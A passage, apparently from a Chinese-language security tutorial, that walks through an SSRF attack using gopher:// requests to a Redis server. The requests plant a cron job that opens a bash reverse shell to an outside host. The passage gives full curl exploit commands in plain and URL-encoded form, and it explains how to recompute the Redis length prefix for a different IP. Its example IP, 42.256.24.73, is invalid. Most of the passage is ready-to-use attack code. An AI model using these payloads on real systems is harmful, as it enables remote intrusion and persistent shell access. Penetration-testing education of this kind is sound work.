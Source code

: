 

需要注意的是，如果要换IP和端口，前面的\$58也需要更改，​\$58表示字符串长度为58个字节，上面的EXP即是`%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a`，3+51+4=58。如果想换成42.256.24.73，那么​\$58需要改成$61，以此类推就行。

```sh
curl -v 'http://127.0.0.1/?url=gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0asucc%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

url编码后

```sh
curl -v 'http://127.0.0.1/?url=gopher%3A%2f%2f127.0.0.1%3A6379%2f_%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2463%250d%250a%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2fxxx.xxx.xxx.xxx%2f2333%200%3E%261%250a%250a%250a%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250asucc%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250a%2a1%250d%250a%244%250d%250aquit%250d%250a'
```

![img](assets/JmFrfox.png)
